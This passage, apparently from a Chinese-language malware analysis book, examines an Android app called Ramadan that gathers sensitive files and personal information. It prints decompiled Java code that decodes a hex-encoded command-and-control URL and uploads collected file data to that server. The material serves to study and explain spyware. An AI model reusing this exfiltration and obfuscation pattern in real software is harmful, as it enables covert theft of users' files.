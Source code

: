 *列表 8-5：Ramadan 应用访问敏感文件*

收集文件后，恶意软件将它们上传到其指挥与控制服务器。在代码中，这个服务器的地址以简单的十六进制编码格式存储，如 列表 8-6 所示。解码该字符串会揭示 URL *https://www.salat-prayertimes.com/salat/pray/*。

```
/* renamed from: a */
public String doInBackground(Void... voidArr) {
  try {
    StringBuilder sb = new StringBuilder();
    auj auj = this.d;
    sb.append(auj.c("68747470733a2f2f7777772e73616c61742d707261796572
74696d65732e636f6d2f73616c61742f707261792f"));
    auj auj2 = this.d;
    sb.append(auj.c("73746174732e706870"));
    sb.append("?");
    String sb2 = sb.toString();
    StringBuilder sb3 = new StringBuilder();
    sb3.append("tc=");
    auj auj3 = this.d;
    sb3.append(auj.a(this.b));
    sb3.append("&tf=");
    auj auj4 = this.d;
    sb3.append(auj.a(this.c));
    String sb4 = sb3.toString();
    if (aub.a() != null) {
      return aug.a(this.a, sb2, sb4);
    }
    return null;
  } catch (Exception e2) {
    aui.a("TermSet", "exception :" + e2.toString(), this.a);
    return null;
  }
}

/* access modifiers changed from: protected */
/* renamed from: a */
public void onPostExecute(String str) {
  if (this.e.a(str)) {
    try {
      auj auj = this.d;
      this.e.b(auj.b(str));
    } catch (Exception e2) {
      aui.a("TermSet", "exception :" + e2.toString(), this.a);
    }
  }
}
```

*列表 8-6：Ramadan 应用连接到指挥与控制服务器*

有趣的是，Ramadan 并没有请求与 SMS 相关的权限。这可能是因为它主要关注收集敏感文件和个人信息，以便确定设备的拥有者。这种行为支持了恶意软件被分发用于收集情报的假设，因为通常用于盈利的功能明显缺失。
